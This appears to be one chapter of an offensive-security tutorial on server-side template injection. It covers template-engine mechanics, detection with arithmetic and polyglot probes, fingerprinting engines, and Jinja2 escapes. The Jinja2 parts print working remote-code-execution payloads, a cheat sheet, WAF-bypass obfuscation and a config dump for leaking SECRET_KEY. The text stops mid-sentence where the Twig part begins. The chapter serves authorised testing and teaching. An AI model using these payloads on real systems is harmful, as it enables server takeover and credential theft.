






This is Chapter 5 of the Injection notebook — Notebook 23. The previous chapter changed the
interpreter from a SQL engine to an operating-system shell and showed how attacker text reaching
a shell becomes command execution. This chapter changes the interpreter again — this time to a
**template engine**. When user input is not merely *displayed by* a template but is *parsed as*
template source, the engine will happily evaluate it as code in the server's own language runtime.
On most engines that is a direct path to remote code execution, which is why SSTI sits at the top
of the impact scale alongside SQLi and command injection.

The instinct you have been building across the injection chapters carries over cleanly: find where
your input lands, identify which interpreter parses it, learn that interpreter's special syntax,
confirm evaluation without breaking anything, then escalate from a harmless proof to controlled
impact. The interpreter here is a template language (Jinja2, Twig, Freemarker, Velocity, and a
dozen more), so the special syntax is the `{{ }}`, `${ }`, `#{ }`, `<%= %>` families, and the
"confirm evaluation" trick is usually arithmetic. We build from the mechanics of what a template
engine actually does, through a rigorous detection-and-fingerprinting methodology, into deep
per-engine exploitation and sandbox escapes, and finish with a real detection-and-defense model.

Everything here assumes **explicit written authorisation** and **in-scope targets only**. SSTI
frequently yields full RCE on the first payload; treat every probe as potentially destructive and
prove impact with the smallest possible marker (an arithmetic result, an `id`/`whoami` string)
rather than dropping a shell on a live production host you were not scoped to own.

---

## Part 1: What a Template Engine Actually Is

Before you can exploit template injection you have to understand what a template engine does,
because the entire vulnerability is a confusion between two things the engine keeps separate: the
**template** (the code) and the **context** (the data).

A template engine is a program that takes a *template string* full of placeholders and control
structures, combines it with a *data model* (a dictionary/object of values), and produces an output
string — usually HTML, but equally an email body, a PDF, a config file, or a SQL statement. It is,
in effect, a small interpreter for a domain-specific language whose job is "produce text from data".

Consider a trivially simple engine written by hand:

```python
# A toy template engine — illustrates compile vs render
import re

def render(template, context):
    # Replace every {{ name }} with the value of context["name"]
    def sub(match):
        expr = match.group(1).strip()
        return str(eval(expr, {}, context))   # <-- the fatal choice
    return re.sub(r"\{\{(.*?)\}\}", sub, template)

print(render("Hello {{ user }}, 2+2={{ 2+2 }}", {"user": "Alice"}))
# Hello Alice, 2+2=4
```

That toy already contains the whole bug in miniature. The `{{ ... }}` delimiters mark an
**expression** that the engine evaluates. If the *template string itself* is ever built from
untrusted input, the attacker controls what goes between the delimiters, and `eval` runs it. Real
engines are vastly more sophisticated — they compile templates to bytecode, cache them, sandbox
dangerous attributes — but conceptually every one of them evaluates expressions found inside its
delimiters.

### 1.1 Compile vs render — the two-phase model

Production engines almost never `eval` on every request. They work in two phases:

1. **Compile / parse:** the template *source* is parsed once into an intermediate form — an
   abstract syntax tree (AST), then often compiled to native code or bytecode of the host language.
   Jinja2 compiles a template into a Python module with a `root()` generator function. Freemarker
   builds a `Template` object holding a tree of `TemplateElement`s. This phase is expensive, so the
   result is cached and reused.
2. **Render / execute:** the compiled template is executed against a **context** — a map of
   variable names to values. Placeholders are resolved, loops iterate, conditionals branch, and the
   engine emits the final string.



The crucial security question is: **which of these two inputs does the attacker control?**

- If the attacker controls only the **context** — the *values* fed into a fixed, trusted template —
  there is no SSTI. The worst that a value like `{{7*7}}` can do is appear literally as the string
  `{{7*7}}` on the page, because it is data, not code. (It may still be XSS if reflected unescaped,
  but that is a different bug.)
- If the attacker controls the **template source** — the code that gets compiled — they control the
  program the engine runs. That is SSTI.

Almost all SSTI comes from developers accidentally letting user input flow into the *source*
position, usually by string-concatenating user data into a template before compiling it, or by
using a "render this string" API on attacker data.

### 1.2 The two fatal anti-patterns

Nearly every real SSTI reduces to one of these two code shapes. Learn to recognise them, because
when you get source access (whitebox testing, an open-source target, a leaked repo) these are what
you grep for.

**Anti-pattern A — user input concatenated into template source:**

```python
# Flask + Jinja2 — the classic SSTI sink
from flask import Flask, request, render_template_string
app = Flask(__name__)

@app.route("/hello")
def hello():
    name = request.args.get("name", "")
    # DANGER: user input is spliced into the TEMPLATE STRING, then compiled
    template = "<h1>Hello " + name + "</h1>"
    return render_template_string(template)
```

Request `/hello?name={{7*7}}` and the compiled template contains the expression `7*7`, which
renders as `49`. The developer *meant* `name` to be data; by concatenating it into the template it
became code.

**Anti-pattern B — a "render arbitrary string" feature exposed to users:**

```python
# A CMS that lets users define email templates, marketing snippets,
# error-page messages, "personalised" greetings, etc.
subject = render_template_string(user_supplied_subject, {"user": current_user})
```

This is common in mail-merge features, no-code/low-code builders, notification templating, wiki
macros, and admin "custom message" fields. The feature *intends* users to write templates — so the
injection is by design, and the security question is entirely about whether the engine is
sandboxed.

### 1.3 Why SSTI is not XSS — and why it is usually worse

Beginners frequently confuse SSTI with cross-site scripting because both involve `{{ }}`-looking
payloads and both often start with input reflected onto a page. The difference is *where the
evaluation happens*:

| Property | XSS | SSTI |
|---|---|---|
| Evaluation location | Victim's **browser** (client) | **Server** runtime |
| Interpreter | JavaScript engine (V8/SpiderMonkey) | Template engine to host language (Python/Java/Ruby/PHP/Node) |
| Prerequisite | Output not HTML-escaped | Input parsed as template *source* |
| Typical impact | Session theft, UI redress, client actions | **Remote code execution** on the server, file read, SSRF, lateral movement |
| Proof marker | `alert(1)` popping in a browser | `{{7*7}}` to `49` server-side, then `id`/`whoami` |
| Framework/CSP mitigations | CSP, HttpOnly, escaping | Sandboxing, logic-less engines, no user templates |

A useful mental test: if your payload `{{7*7}}` renders as `49` in the raw HTTP response *before*
any JavaScript runs — i.e. the server sent back `49` — that is server-side evaluation, i.e. SSTI.
If `7*7` only "runs" because a browser executed reflected JS, that is XSS. Client-side template
injection (CSTI) — e.g. AngularJS `{{ }}` sandbox escapes — is a real third category that lives in
the browser; this chapter is about the *server* side, but Part 12 notes where the line blurs.

### 1.4 Delimiters and syntax families you must recognise

Every engine defines delimiters that mark where template logic begins and ends. Memorising the
common ones lets you both *craft* probes and *recognise* which engine you are likely facing:

| Delimiter | Meaning | Engines that use it |
|---|---|---|
| `{{ ... }}` | Output an expression | Jinja2, Twig, Nunjucks, Handlebars, Liquid, Django (limited), Jinjava |
| `` | Statement/control block | Jinja2, Twig, Nunjucks, Django, Liquid |
| `${ ... }` | Expression interpolation | Freemarker, Thymeleaf, JSP EL, Mako, Groovy, JS template literals |
| `#{ ... }` | Expression / message | Thymeleaf, Ruby/Slim, some i18n |
| `#set`, `#if`, `$var` | Directives / references | Velocity |
| `<%= ... %>` | Output expression | ERB (Ruby), EJS (Node), JSP scriptlet |
| `<% ... %>` | Statement | ERB, EJS, JSP |
| `*{ ... }`, `@{ ... }` | Selection / URL | Thymeleaf |
| `{ ... }` | Section/variable | Smarty, Mustache-family |

You do not need to memorise which engine is which yet — Part 4 gives you a *differential* method
that tells the engines apart by behaviour. But recognising that `${7*7}`, `{{7*7}}`, `<%= 7*7 %>`,
and `#{7*7}` are the "same idea" across four syntax families is the foundation of a good polyglot
probe.

---

## Part 2: The Root Cause — Data-as-Code, and Where It Enters

SSTI is a member of the broad "injection" family, and it shares the exact same root cause as SQLi
and command injection: **untrusted data crosses a boundary into a position where it is interpreted
as code.** In SQLi the boundary is the query parser; in command injection it is the shell; in SSTI
it is the template compiler. Understanding *where* input crosses that boundary tells you where to
hunt.

### 2.1 The trust boundary, drawn precisely



The single most important line in that diagram is the split at the top: *value vs source*. A
huge amount of SSTI triage is just determining which side of that line your input is on, which is
exactly what the arithmetic oracle in Part 3 measures.

### 2.2 Common entry points where template source gets built from input

Where do developers accidentally build template source from user data? The recurring hotspots:

- **Personalisation / mail-merge:** "Dear {{first_name}}" style features where the *whole message*
  is a user- or admin-editable template. Marketing tools, CRMs, transactional-email builders.
- **Error and notification messages:** an app formats an error using a template and drops the raw
  user value (a username, a filename, a search term) straight into the template string.
- **Server-side rendered names/titles:** profile "display name", organisation name, project name,
  or a "custom subdomain/site title" that is echoed through a templated layout.
- **Wiki/CMS macros and shortcodes:** systems that let content authors embed dynamic snippets
  (Confluence-style macros, Liquid in e-commerce themes, Smarty in legacy PHP CMSs).
- **Templated exports:** invoice/report/PDF generators, YAML/JSON config generators, and
  "download as ..." features where a user-controlled field is inlined into a server template.
- **Low-code / no-code platforms and internal tools:** formula fields, "expression" columns,
  webhook body templates — these often *intend* to evaluate expressions, so the game is escaping
  the sandbox.
- **Subject/preview lines in email** and **SMS templating** back-ends.

**Bug bounty angle:** the highest-yield SSTI hunting ground is any feature that says "personalise",
"template", "custom message", "dynamic", "formula", or "expression". A profile name field that
renders `{{7*7}}` as `49` in a *confirmation email* or a *server-rendered page* is a high-severity
bug on many programs precisely because it so often chains straight to RCE.

### 2.3 Framework defaults matter

Not every engine is equally dangerous when injected, because engines differ enormously in how much
of the host language they expose:

- **Full-power engines (RCE by design when you reach source):** Jinja2, Twig, Freemarker, Velocity,
  Smarty, Mako, Tornado, ERB, Groovy templates. These expose object access, method calls, or direct
  host-language statements.
- **Logic-less / heavily restricted engines (much harder to escalate):** Mustache, Handlebars
  (base), Liquid, and Django's template language deliberately forbid arbitrary expression
  evaluation and method calls with arguments. Injection here is still a bug (information disclosure,
  denial of service, sometimes limited data access), but *RCE* usually requires a known engine
  vulnerability or a helper/plugin that reintroduces power.

Knowing which camp you are in — established by fingerprinting in Part 4 — sets your realistic
ceiling: "RCE right now" vs "prove impact, report, and hunt for an escape".

---

## Part 3: A Reliable Detection Methodology

Detection has one job: decide, with high confidence and minimal noise, whether your input is being
*evaluated as a template expression*. The gold-standard technique is the **arithmetic oracle**,
supported by a **polyglot probe** and careful reading of the raw response.

### 3.1 The arithmetic oracle — why `{{7*7}}` and not `{{49}}`

You inject an expression whose evaluated result is *distinct from its literal text*, then check
whether the response contains the **computed** value or the **literal** payload.

- Inject `{{7*7}}`. If the response contains `49`, the server *evaluated* multiplication — SSTI.
- If the response contains the literal `{{7*7}}`, your input is being treated as data (no SSTI, or
  wrong delimiters).

Use a product of two non-trivial numbers, not `{{49}}` or `{{7+7}}`:

- `{{49}}` would render `49` even if the engine merely *echoes* the number — no evaluation proven.
- `7*7=49` is unambiguous: `49` cannot appear by accident from the literal `7*7`, and it is unlikely
  to appear as pre-existing page content, so a match is strong evidence of evaluation.
- Prefer a slightly unusual product to avoid coincidental page matches: `{{1337*1337}}` to
  `1787569` is essentially impossible to see by chance.

**Never** use only addition or a single number, and be aware that `{{7*7}}` failing does *not* mean
"no SSTI" — it may mean the engine uses different delimiters. That is what the polyglot fixes.

### 3.2 The multi-syntax polyglot probe

Because you rarely know the engine up front, fire one string that carries the arithmetic oracle in
every common delimiter family at once, then see which fragment computed:

```
${7*7}${{7*7}}@(7*7)#{7*7}%{7*7}{{7*7}}<%= 7*7 %>[[${7*7}]]#{ 7*7 }*{7*7}{7*7}
```

A widely shared, more compact community polyglot is:

```
${{<%[%'"}}%\
```

That second string is a *breakage* probe, not an arithmetic one: it packs the special characters
of many engines together so that *at least one* engine throws a template syntax error. An error
(HTTP 500, a stack trace, "unexpected token", "unclosed tag") is itself a strong SSTI signal and
often leaks the engine name for free. Use it as a first-pass tripwire, then follow up with targeted
arithmetic per family.

**Practical order of operations:**

1. Send the breakage polyglot `${{<%[%'"}}%\`. Watch for 500s / template stack traces.
2. Send arithmetic per family and note which evaluates:
   - `{{7*7}}` to Jinja2, Twig, Nunjucks, Handlebars-ish
   - `${7*7}` to Freemarker, Thymeleaf, Mako, JSP EL, JS template literals
   - `#{7*7}` to Thymeleaf, Ruby/Slim
   - `<%= 7*7 %>` to ERB, EJS, JSP
   - `{7*7}` to Smarty
   - `#set($x=7*7)$x` to Velocity
3. Whichever produced a computed number tells you the syntax family; Part 4 then disambiguates the
   exact engine.

### 3.3 Reading the raw response, not the rendered page

Always inspect the **raw HTTP response body** (Burp Repeater, `curl -s`), not a browser-rendered
view. Three failure modes bite beginners:

- **HTML-escaping masks evaluation.** Some contexts escape `<`/`>`/`&` but still evaluate the
  expression; you will still see `49`, but the surrounding markup may be mangled — read bytes, not
  pixels.
- **The value appears somewhere unexpected.** SSTI in a *name* field might surface in a later
  *email* or an admin page, not the immediate response (see blind SSTI, Part 10).
- **Coincidental matches.** On a busy page, `49` might already exist. That is why `1337*1337` to
  `1787569` and other unusual products are safer confirmations.

### 3.4 A concrete detection walk-through with curl

```bash
# 1) Breakage tripwire — do we get a template error?
curl -s "https://target.tld/greet?name=%24%7B%7B%3C%25%5B%25%27%22%7D%7D%25%5C" -i | head -40
#   %24%7B%7B%3C%25%5B%25%27%22%7D%7D%25%5C  ==  ${{<%[%'"}}%\  URL-encoded
#   -> look for HTTP/1.1 500 and a stack trace naming jinja2 / twig / freemarker...

# 2) Arithmetic in the {{ }} family
curl -s "https://target.tld/greet?name=%7B%7B7*7%7D%7D"        # {{7*7}}
#   -> "Hello 49" means evaluation in a Jinja2/Twig-style engine

# 3) Arithmetic in the ${ } family
curl -s "https://target.tld/greet?name=%24%7B7*7%7D"           # ${7*7}
#   -> "Hello 49" means Freemarker / Thymeleaf / Mako / EL

# 4) Confirm it is not coincidence with an unusual product
curl -s "https://target.tld/greet?name=%7B%7B1337*1337%7D%7D"  # {{1337*1337}}
#   -> "Hello 1787569" — now you are certain
```

**Realistic annotated output** for a vulnerable Flask/Jinja2 app on step 2:

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 17

<h1>Hello 49</h1>
```

The `49` in the body — sent by the server, before any JavaScript — is your confirmation. You now
have SSTI; the next question is *which engine*, so you know how to escalate.

---

## Part 4: Fingerprinting the Engine — a Differential Decision Tree

Once evaluation is confirmed, you must identify the exact engine, because exploitation payloads are
engine-specific. The professional method is **differential probing**: send payloads that produce
*different* results on different engines, and walk a decision tree. The canonical version of this
tree comes from the original SSTI research (James Kettle / PortSwigger) and is worth internalising.



### 4.1 The single most useful differential: `{{7*'7'}}`

For the `{{ }}` family, one payload splits the two most common engines:

- **Jinja2 (Python):** `{{7*'7'}}` to `7777777`. Python's `int * str` repeats the string seven
  times, giving `'7777777'`.
- **Twig (PHP):** `{{7*'7'}}` to `49`. PHP coerces the string `'7'` to the integer `7`, so `7*7=49`.

So after `{{7*7}}` to `49` confirms the family, `{{7*'7'}}` tells Jinja2 from Twig instantly. This
single differential resolves the vast majority of real-world `{{ }}` SSTI.

### 4.2 A per-family differential table

| Probe | Renders as | Engine indicated |
|---|---|---|
| `{{7*7}}` to `49` and `{{7*'7'}}` to `7777777` | string repeat | **Jinja2** (Python) |
| `{{7*7}}` to `49` and `{{7*'7'}}` to `49` | numeric coercion | **Twig** (PHP) |
| `{{7*7}}` to `49`, `` blocks work, proto access | JS semantics | **Nunjucks** (Node) |
| `{{7*7}}` literal, but `{{ this.constructor }}` works | Mustache-ish | **Handlebars** (Node) |
| `${7*7}` to `49` and Execute utility recognised | Java | **Freemarker** |
| `${7*7}` only inside `th:text`, `#{}`/`*{}` also work | Java Spring | **Thymeleaf** |
| `${7*7}` to `49`, `<%= 'a'.class %>` to `String` | Java Groovy | **Groovy** |
| `#set($x=7*7)$x` to `49`, `$class` reflection | Java | **Velocity** |
| `${7*7}` to `49`, Python tracebacks | Python | **Mako** |
| `{{7*7}}` to `49` with a Tornado handler traceback | Python | **Tornado** |
| `<%= 7*7 %>` to `49`, backtick command works | Ruby | **ERB** |
| `#{7*7}` to `49`, Ruby semantics | Ruby | **Slim / ERB-adjacent** |
| `{7*7}` to `49`, `{$smarty.version}` leaks version | PHP | **Smarty** |

### 4.3 Version and environment leaks

Engines often expose self-describing variables that both *confirm* the engine and *fingerprint the
version* (useful for matching known CVEs):

- **Smarty:** `{$smarty.version}` prints the exact Smarty version.
- **Twig:** `{{ _self }}` / `{{ _self.env }}` reveals the environment object (and historically the
  path to RCE gadgets).
- **Jinja2:** `{{ self }}` and `{{ config }}` (in Flask) dump the template self-reference and the
  Flask config object — the latter frequently leaks `SECRET_KEY`, DB URIs, and cloud credentials
  *even before* you reach RCE.
- **Freemarker:** an induced error prints `FreeMarker template error:` with a stack trace.

**Bug bounty angle:** in a Flask app, `{{ config }}` and `{{ config.items() }}` are often enough
for a high/critical report on their own — leaking `SECRET_KEY` lets you forge session cookies and
impersonate any user, which many programs rate as critical regardless of whether you also proved
RCE. Prove the SECRET_KEY leak with a redacted screenshot; do not exfiltrate more than needed.

---

## Part 5: Jinja2 (Python) — From `{{7*7}}` to RCE, the Internals

Jinja2 is the most commonly encountered SSTI engine in modern targets (Flask, and any Python app
using `render_template_string`, plus Ansible, Salt, and many others). It is also the best engine to
learn deeply because its escape teaches you Python object-model traversal that transfers to Mako,
Tornado, and beyond.

### 5.1 What you can and cannot do inside Jinja2

Jinja2 expressions can access attributes, index items, call methods, and use a set of built-in
filters. It runs in the Python process, so *if* you can reach a Python object that can execute code
(`os.system`, `subprocess.Popen`, `eval`, `__import__`), you win. Jinja2's "sandboxed" mode
(`SandboxedEnvironment`) blocks access to dunder attributes and unsafe callables — but the default
`render_template_string` in Flask is **not** sandboxed, which is why Flask SSTI is so lethal.

The escape strategy is: **start from any object you can reach, climb to a class, walk the class
hierarchy to find a class that gives you code execution, then call it.**

### 5.2 The Python object model you will abuse

Four building blocks:

- `''.__class__` to `<class 'str'>` — every literal exposes its class via `__class__`.
- `SomeClass.__mro__` to the *Method Resolution Order*, a tuple of the class and all its ancestors,
  ending in `object`. `''.__class__.__mro__[-1]` is `<class 'object'>`.
- `object.__subclasses__()` to a big list of **every** subclass of `object` loaded in the process —
  hundreds of classes, including file objects, `subprocess.Popen`, warning classes with importable
  `__globals__`, etc.
- `some_function.__globals__` to the module globals of any function, often containing `os`, `sys`,
  or `__builtins__` — a direct route to `os.system`.



### 5.3 The classic MRO/subclasses one-liner (explained piece by piece)

The historically famous Jinja2 RCE payload:

```jinja
{{ ''.__class__.__mro__[1].__subclasses__() }}
```

Step by step:

- `''.__class__` to `str`
- `.__mro__[1]` to `object` (index 1 because `str.__mro__` is `(str, object)`; on some objects use
  `[-1]` to be safe)
- `.__subclasses__()` to the full list of loaded subclasses of `object`.

That dumps a numbered list. You then find the **index** of a useful gadget. Two evergreen gadgets:

**Gadget 1 — `subprocess.Popen` directly (if present in the list):**

```jinja
{{ ''.__class__.__mro__[1].__subclasses__()[INDEX]('id',shell=True,stdout=-1).communicate() }}
```

Here `INDEX` is the position of `<class 'subprocess.Popen'>` in the subclasses list. `stdout=-1`
is `subprocess.PIPE`; `.communicate()` returns the command output as a tuple.

**Gadget 2 — a warnings class whose `__init__.__globals__` contains `__builtins__` (very
portable):**

```jinja
{{ ''.__class__.__mro__[1].__subclasses__()[INDEX].__init__.__globals__['__builtins__']['__import__']('os').popen('id').read() }}
```

The index for `warnings.catch_warnings` (a common carrier of importable globals) varies by Python
build, so you locate it dynamically instead of hardcoding — see 5.5.

### 5.4 The modern, index-free payloads (prefer these)

Hardcoding subclass indices is brittle: the list order changes between Python versions and loaded
modules. Modern payloads avoid indices entirely.

**Via `cycler` / `joiner` / `namespace` globals (available in Flask/Jinja2 templates):**

```jinja
{{ cycler.__init__.__globals__.os.popen('id').read() }}
{{ joiner.__init__.__globals__.os.popen('id').read() }}
{{ namespace.__init__.__globals__.os.popen('id').read() }}
```

Flask injects `cycler`, `joiner`, and `namespace` into the template context; each is a class whose
`__init__.__globals__` includes the `os` module. This is the most reliable modern Flask-SSTI RCE
and needs no index at all.

**Via `lipsum` (Flask helper whose globals hold `os`):**

```jinja
{{ lipsum.__globals__['os'].popen('id').read() }}
{{ lipsum.__globals__.os.popen('whoami').read() }}
```

**Via `config` for the Flask class route:**

```jinja
{{ config.__class__.__init__.__globals__['os'].popen('id').read() }}
```

**Realistic output** for `{{ lipsum.__globals__.os.popen('id').read() }}` on a vulnerable box:

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8

<h1>Hello uid=1000(app) gid=1000(app) groups=1000(app)
</h1>
```

You now have RCE as the `app` user. Escalate to a reverse shell only if the engagement scope allows
it; otherwise `id`/`whoami`/`hostname` is sufficient proof.

### 5.5 Dynamically locating a gadget index (when you must use `__subclasses__`)

If the modern globals are stripped and you are stuck with `__subclasses__()`, find the index of a
target class programmatically rather than guessing. A common approach is a small local script that
mirrors the target's Python version:

```python
# Run locally against the SAME python version as the target
target = "subprocess.Popen"
subs = ().__class__.__bases__[0].__subclasses__()
for i, c in enumerate(subs):
    if target in str(c):
        print(i, c)
# e.g. 396 <class 'subprocess.Popen'>
```

Even better, do it *inside* the template so it is version-agnostic — this Jinja loop finds and
calls `Popen` without a hardcoded number:

```jinja


{{ c('id',shell=True,stdout=-1).communicate()[0] }}


```

### 5.6 A compact Jinja2 RCE cheat block

```jinja
# Confirm engine
{{7*7}}            -> 49
{{7*'7'}}          -> 7777777   (Jinja2, not Twig)

# Leak Flask config (SECRET_KEY etc.)
{{ config }}
{{ config.items() }}

# RCE — modern, index-free (try in this order)
{{ lipsum.__globals__.os.popen('id').read() }}
{{ cycler.__init__.__globals__.os.popen('id').read() }}
{{ namespace.__init__.__globals__.os.popen('id').read() }}
{{ get_flashed_messages.__globals__.os.popen('id').read() }}
{{ request.application.__globals__.__builtins__.__import__('os').popen('id').read() }}

# RCE — classic object traversal (portable fallback)
{{ ''.__class__.__mro__[1].__subclasses__() }}   # enumerate, find index
{{ ''.__class__.__mro__[1].__subclasses__()[INDEX].__init__.__globals__['__builtins__']['__import__']('os').popen('id').read() }}
```

---

## Part 6: The Jinja2 Sandbox — How It Works and How Escapes Are Found

Because Jinja2 is so exploitable, you must understand its **SandboxedEnvironment**, both to know
when you are blocked and to appreciate how researchers keep finding escapes.

### 6.1 What the sandbox blocks

`jinja2.sandbox.SandboxedEnvironment` overrides attribute and item access to forbid:

- Attributes starting with underscore (`_`), which kills `__class__`, `__mro__`, `__subclasses__`,
  `__globals__`, `__init__` — the entire traversal from Part 5.
- A denylist of "unsafe" callables and known-dangerous operations.
- `str.format`/`str.format_map` on attacker-tainted format strings (patched after format-string
  attacks were shown to reach globals).

So under a *correct* sandbox, the standard RCE payloads simply raise `SecurityError`. Injection
still exists, but you are reduced to whatever the exposed context objects legitimately allow —
which is why sandboxing is the right defense.

### 6.2 How historical escapes worked (pattern, not just payloads)

Sandbox escapes are a cat-and-mouse history. The recurring *pattern* is: find one method or
attribute the sandbox failed to forbid that indirectly reaches a dangerous capability. Classic
examples (mostly patched, but instructive):

- **`str.format` / `.format_map` reaching globals:** before patches, format-string tricks reached
  module globals *without* writing `__` directly in an attribute-access position, sneaking past the
  underscore filter.
- **`|attr()` filter to bypass attribute filtering:** `{{ ()|attr('__class__') }}` — the `attr`
  filter historically behaved differently from `.` access.
- **Namespace / mutable defaults / newly added builtins:** each Python or Jinja release adds objects
  to the context; researchers audit them for a fresh path to `os`.

The practical lesson for a tester: when standard payloads fail with a `SecurityError`, you are
likely against a real sandbox. Confirm the block, note it, and pivot to (a) information disclosure
via *allowed* context objects, (b) a known CVE matching the exact Jinja2/framework version, or (c)
reporting the SSTI as-is — a sandboxed SSTI is still a finding, and sandboxes have been escaped
before.

### 6.3 Filter-based obfuscation to defeat *application* denylists (not the sandbox)

Distinguish the *engine sandbox* (hard) from an *application WAF/denylist* that just blocks strings
like `__class__` or `os` (soft). Against a soft denylist you obfuscate without needing a real
escape:

```jinja
# Build the string "__class__" without writing it literally
{{ ''['__cla'+'ss__'] }}                         # string concat in the index
{{ ()|attr('__cla%s__'|format('ss')) }}          # attr filter + format
{{ request['application']['__globals__'] }}       # bracket access dodges '.' filters

# Access os without the literal 'os'
{{ lipsum.__globals__['o'+'s'].popen('id').read() }}

# Bypass blocked dots using attr and bracket chaining
{{ (lipsum|attr('__globals__'))['os']['popen']('id')['read']() }}
```

These matter constantly in bug bounty, where a partial WAF blocks obvious tokens but not their
concatenated equivalents.

---

## Part 7: Twig (PHP) — `_self`, Filters, and RCE Gadgets

Twig is Symfony's engine and appears in Drupal, Craft CMS, October CMS, Grav, and countless PHP
